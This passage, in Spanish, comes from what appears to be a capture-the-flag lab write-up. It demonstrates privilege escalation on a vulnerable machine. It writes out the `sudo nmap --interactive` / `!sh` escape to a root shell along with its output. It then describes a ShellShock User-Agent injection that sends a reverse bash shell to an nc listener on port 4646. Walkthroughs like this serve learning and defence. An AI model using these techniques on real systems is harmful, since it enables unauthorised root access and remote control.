 La lanzamos en modo `interactive` lo cual solo es posible en versiones antiguas de nmap, y así mismo, lanzamos una bash con `!sh` y nos la entrega como `root`

```bash
bash-3.2$ sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
sh-3.2# whoami
root
```

### ShellShock


Extiste una manera más interesante para elevar nuestros privilegios, y es realizando un [ShellShock Attack](https://deephacking.tech/shellshock-attack-pentesting-web/).
En principio y de manera resumida, debemos cambiar el `User-Agent` de la petición, la cual permite realizar un `RCE` la cual vamos a utilizar para mandarnos una `bash` al puerto `4646`, Utilizando la herramienta de `Burpsuite` se debe ver algo así

![Burpsuite ShellShock Attack](/assets/img/commons/Beep/Burpsuite.png)_Burpsuite ShellShock Attack_

A su vez nos ponemos en escucha por el puerto `4646` haciendo uso de la herramienta `nc` y obtenemos la `Bash`

